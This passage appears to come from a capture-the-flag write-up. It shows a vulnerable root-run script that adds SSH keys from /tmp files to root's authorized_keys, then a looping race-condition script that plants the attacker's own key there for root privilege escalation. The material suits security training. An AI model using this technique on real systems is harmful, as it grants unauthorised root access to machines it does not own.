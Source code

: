 ```bash
        fi

}

addKey() {

        tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
        # variable tmpName creates temporary file ssh-XXXXXXXX
        (umask 110; touch $tmpName)
        # set permissions
        /bin/echo $key >>$tmpName
        # copy variable key to variable tmpName
        checkFile $tmpName
        # check if tmpName exists
        /bin/cat $tmpName >>/root/.ssh/authorized_keys
        # copy tmpName to authorized_keys
        /bin/rm $tmpName
        # then remove the file tmpName
}

key="ssh-rsa AAAAA3NzaG1yc..............root@ubuntu" # sample ssh public key
addKey # invoking the function addKey
checkAdded # invoking the function checkAdded

```

## Root Privilege Escelation
The user ```neil``` is able to execute the bash script ```/usr/local/bin/enableSSH.sh``` as superuser. The bash script is getting ssh public key from a random generated file stored in ```/tmp/``` directory and adds it to ```/root/.ssh/authorized_keys```. The random file name starts with ```ssh-```.

We can take advatage of this by writing a script which copies our own public ssh key to any file with name ```ssh-****``` stored in ```/tmp/``` directory. 
First i created ssh keys pair specific for this with the command:
```bash
ssh-keygen -f root
```
After creating the ssh keys, copy the public key inside the echo quotes
I wrote below bash script:
```bash
#!/bin/bash
while :
do 
echo "ssh-rsa AAAAB3NzaC1yc2EAAA............root@kali" | tee /tmp/ssh-* 2>/dev/null
done
```

The script would run in a loop and echo our public key to any files in ```/tmp/ssh-*``` which would then be copied to ```/root/.ssh/authorized_keys```.

We first execute the our bash script, then execute the command ```sudo /usr/local/bin/enableSSH.sh```.
